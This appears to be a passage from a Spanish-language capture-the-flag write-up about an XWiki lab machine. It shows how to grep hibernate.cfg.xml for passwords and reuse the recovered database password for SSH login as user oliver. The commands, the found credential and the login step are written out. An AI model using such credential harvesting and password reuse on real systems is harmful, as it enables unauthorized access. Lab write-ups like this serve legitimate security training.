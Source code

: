 Si empezamos a explorar la carpeta de `WEB-INF` del usuario `wiki` veremos un archivo interesante.

```
/usr/lib/xwiki/WEB-INF
```

Dentro de este directorio veremos esto:

```
total 280
drwxr-xr-x 4 root root   4096 Jul 29 11:48 .
drwxr-xr-x 7 root root   4096 Jul 29 11:46 ..
lrwxrwxrwx 1 root root     16 Mar 27  2024 cache -> /etc/xwiki/cache
drwxr-xr-x 2 root root   4096 Jul 29 11:46 classes
lrwxrwxrwx 1 root root     16 Mar 27  2024 fonts -> /etc/xwiki/fonts
lrwxrwxrwx 1 root root     28 Mar 27  2024 hibernate.cfg.xml -> /etc/xwiki/hibernate.cfg.xml
lrwxrwxrwx 1 root root     41 Mar 27  2024 jboss-deployment-structure.xml -> /etc/xwiki/jboss-deployment-structure.xml
lrwxrwxrwx 1 root root     24 Mar 27  2024 jetty-web.xml -> /etc/xwiki/jetty-web.xml
drwxr-xr-x 2 root root 270336 Jul 29 11:46 lib
lrwxrwxrwx 1 root root     22 Mar 27  2024 observation -> /etc/xwiki/observation
lrwxrwxrwx 1 root root     22 Mar 27  2024 portlet.xml -> /etc/xwiki/portlet.xml
lrwxrwxrwx 1 root root     22 Mar 27  2024 sun-web.xml -> /etc/xwiki/sun-web.xml
lrwxrwxrwx 1 root root     29 Mar 27  2024 version.properties -> /etc/xwiki/version.properties
lrwxrwxrwx 1 root root     18 Mar 27  2024 web.xml -> /etc/xwiki/web.xml
lrwxrwxrwx 1 root root     20 Mar 27  2024 xwiki.cfg -> /etc/xwiki/xwiki.cfg
lrwxrwxrwx 1 root root     28 Mar 27  2024 xwiki-locales.txt -> /etc/xwiki/xwiki-locales.txt
lrwxrwxrwx 1 root root     27 Mar 27  2024 xwiki.properties -> /etc/xwiki/xwiki.properties
```

De todos estos archivos el que encontre algo interesante es el llamado `hibernate.cfg.xml`, por lo que vamos a filtrar en el propio archivo por `pass` a ver si hay algo interesante.

```shell
cat hibernate.cfg.xml | grep "pass"
```

Info:

```
	<property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
```

Veremos varias contraseñas, pero entre ellas la que mas atrae es `theEd1t0rTeam99`, por lo que vamos a probarla con el primer usuario creado en la maquina con `SUID` `1000` llamado `oliver` a ver si fuera su contraseña por `SSH`.

```shell
ssh oliver@<IP>
```

Metemos como contraseña `theEd1t0rTeam99`...
